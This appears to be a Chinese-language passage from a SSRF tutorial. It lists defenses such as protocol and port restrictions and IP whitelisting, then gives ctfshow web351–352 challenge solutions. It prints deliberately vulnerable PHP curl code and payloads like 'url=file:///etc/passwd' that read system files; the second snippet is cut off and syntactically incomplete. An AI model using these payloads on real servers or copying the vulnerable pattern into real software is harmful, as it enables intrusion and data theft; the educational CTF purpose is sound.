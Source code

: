 ## 防御方案

1.禁止跳转

2.过滤返回信息，验证远程服务器对请求的响应是比较容易的方法。如果 web 应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准

3.禁用不需要的协议，仅仅允许 http 和 https 请求。可以防止类似于 file://, gopher://, ftp:// 等引起的问题

4.设置 URL 白名单或者限制内网 IP（使用 gethostbyname()判断是否为内网 IP）

5.限制请求的端口为 http 常用的端口，比如 80、443、8080、8090

6.统一错误信息，避免用户可以根据错误信息来判断远端服务器的端口状态

# ctfshow

## web351

发现跟之前 pikachu 靶场的很像，这个是 POST，我们该如何利用 SSRF 获取 flag 呢？

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?>
```

POST 发包，读到了 passwd

```
url=file:///etc/passwd
```

读 flag

```
url=file:///var/www/html/flag.php
```

## web352

增加了过滤，localhost|127.0.0 不能用

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
if(!preg_match('/localhost|127.0.0/')){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
```